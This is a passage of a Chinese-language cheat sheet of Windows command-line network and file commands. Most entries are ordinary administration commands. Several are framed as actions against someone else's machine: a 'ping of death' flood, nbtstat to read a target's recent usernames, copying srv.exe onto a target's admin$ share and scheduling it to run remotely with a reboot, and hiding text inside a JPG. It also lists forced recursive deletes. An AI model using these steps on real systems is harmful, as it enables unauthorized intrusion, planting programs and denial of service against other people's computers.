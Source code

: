 　　net share c$ /del 删除C：共享

　　net user guest 12345 用guest用户登陆后用将密码改为12345

　　net password 密码 更改系统登陆密码

　　netstat -a 查看开启了哪些端口,常用netstat -an

　　netstat -n 查看端口的网络连接情况，常用netstat -an

　　netstat -v 查看正在进行的工作

　　netstat -p 协议名 例：netstat -p tcq/ip 查看某协议使用情况

　　netstat -s 查看正在使用的所有协议使用情况

　　nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名

　　tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数：“-w数字”用于设置超时间隔。

　　ping ip(或域名) 向对方主机发送默认大小为32字节的数据，参数：“-l[空格]数据包大小”；“-n发送数据次数”；“-t”指一直ping。

　　ping -t -l 65550 ip 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)

　　ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息

　　tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)

　　kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)

　　del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件

　　del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）

　　move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖

　　fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令

　　at id号 开启已注册的某个计划任务

　　at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止

　　at id号 /delete 停止某个已注册的计划任务

　　at 查看所有的计划任务

　　at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机

　　finger username @host 查看最近有哪些用户登陆

　　telnet ip 端口 远和登陆服务器,默认端口为23

　　open ip 连接到IP（属telnet登陆后的命令）

　　telnet 在本机上直接键入telnet 将进入本机的telnet

　　copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件

　　copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下

　　copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件

　　copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
